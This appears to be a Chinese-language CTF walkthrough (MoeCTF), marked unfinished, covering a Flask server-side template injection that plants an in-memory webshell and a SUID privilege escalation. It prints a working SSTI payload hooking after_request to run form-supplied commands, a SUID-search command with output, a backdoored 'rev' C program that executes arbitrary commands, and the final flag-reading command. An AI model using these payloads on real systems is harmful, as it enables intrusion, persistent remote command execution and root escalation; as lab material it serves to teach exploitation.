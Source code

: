 
## [内存马+SUID提权] 22 第二十二章 血海核心·千年手段

本文尚未完成

SSTI 内存马

```python
{{url_for.__globals__['__builtins__']['eval'](
"app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.form.get('cmd') and exec(\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.form.get('cmd')).read())\")==None else resp)",
{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']}
)}}
```

SUID 程序查找

```python
find / -type f -perm -4000 2>/dev/null
```

```python
(MoeCTFer:/app) $ find / -type f -perm -4000 2>/dev/null
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

如果 `rev` 这个二进制文件带有 **SUID root 权限位**，当任何用户执行它时，进程的 **有效用户 ID (EUID)** 会被设置为 **文件属主**（root），而不是当前登录的用户。

rev.c

```python
#include <unistd.h>
#include <string.h> 
int main(int argc, char **argv) { 
for(int i = 1; i + 1 < argc; i++) { 
if (strcmp("--HDdss", argv[i]) == 0) { 
execvp(argv[i + 1], &argv[i + 1]); 
} 
} 
return 0; 
}
```

```python
rev --HDdss cat /flag
```

---